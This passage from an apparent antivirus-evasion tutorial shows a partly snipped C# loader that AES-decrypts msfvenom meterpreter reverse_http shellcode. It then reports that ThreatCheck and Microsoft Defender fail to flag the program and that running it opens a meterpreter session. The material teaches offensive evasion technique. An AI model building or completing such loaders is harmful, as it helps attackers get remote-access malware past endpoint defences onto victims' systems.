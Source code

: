 ```csharp
<SNIP>
using System.Security.Cryptography;

namespace NotMalware
{
    internal class Program
    {
        <SNIP>

        static void Main(string[] args)
        {
            // Shellcode (msfvenom -p windows/x64/meterpreter/reverse_http LHOST=... LPORT=... -f csharp)
            string bufEnc = "<SNIP>";

            // Decrypt shellcode
            Aes aes = Aes.Create();
            byte[] key = new byte[16] { 0x1f, 0x76, 0x8b, 0xd5, 0x7c, 0xbf, 0x02, 0x1b, 0x25, 0x1d, 0xeb, 0x07, 0x91, 0xd8, 0xc1, 0x97 };
            byte[] iv = new byte[16] { 0xee, 0x7d, 0x63, 0x93, 0x6a, 0xc1, 0xf2, 0x86, 0xd8, 0xe4, 0xc5, 0xca, 0x82, 0xdf, 0xa5, 0xe2 };
            ICryptoTransform decryptor = aes.CreateDecryptor(key, iv);
            byte[] buf;
            using (var msDecrypt = new System.IO.MemoryStream(Convert.FromBase64String(bufEnc)))
            {
                using (var csDecrypt = new CryptoStream(msDecrypt, decryptor, CryptoStreamMode.Read))
                {
                    using (var msPlain = new System.IO.MemoryStream())
                    {
                        csDecrypt.CopyTo(msPlain);
                        buf = msPlain.ToArray();
                    }
                }
            }

            // Allocate RW space for shellcode
            <SNIP>

```

This time, running `ThreatCheck` against the compiled malware results in a `"No threat found!"` message.

![image](BZILPlNnVC68.png)

We can confirm that `Microsoft Defender Antivirus` does not detect the program as malicious by re-enabling `Real-time protection`, copying the file to the `Desktop` and noticing it doesn't get immediatly removed. We can even go a step further and attempt to run it, establishing a `meterpreter session`:

![image](syWlzWDPYPMn.png)

